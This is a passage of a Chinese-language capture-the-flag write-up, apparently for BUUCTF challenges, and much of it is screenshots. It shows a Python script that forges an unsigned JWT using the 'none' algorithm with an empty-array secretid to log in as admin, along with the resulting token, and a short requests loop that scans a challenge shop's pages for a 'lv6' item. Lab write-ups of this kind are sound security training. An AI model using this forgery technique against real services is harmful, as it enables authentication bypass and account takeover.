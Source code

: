 secretid可以利用空数组绕过（ JavaScript 是一门弱类型语言，空数组与数字比较永远为真）

![](https://img.npfs06.top/20210326205822.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

![](https://img.npfs06.top/20210326205830.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

![](https://img.npfs06.top/20210326205843.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

所以总的做法就是生成一个 secretid 为空数组的令牌，username 设置为 admin，加密方式为 none（空加密算法），即可绕过验证，使得最后登录时验证的用户名为 admin

```
import jwt
token = jwt.encode(
{"secretid":[],
"username":"admin",
"password":"888"},
algorithm="none",key=""
).decode('utf-8')
print(token)

```

==> eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6Ijg4OCJ9.



![](https://img.npfs06.top/20210326205854.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



# **ikun**



![](https://img.npfs06.top/20210326205906.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

![](https://img.npfs06.top/20210326205915.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

这里提示我们购买lv6，写个脚本跑一下


```
import requests
url="http://4134c719-6874-41bc-962f-ab08697fbc16.node3.buuoj.cn/shop?page="
for i in range(0,2000):
    r=requests.get(url+str(i))
    if 'lv6.png' in r.text:
       print (i)
       break
       
--》lv6在181页       
```

![](https://img.npfs06.top/20210326205927.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)
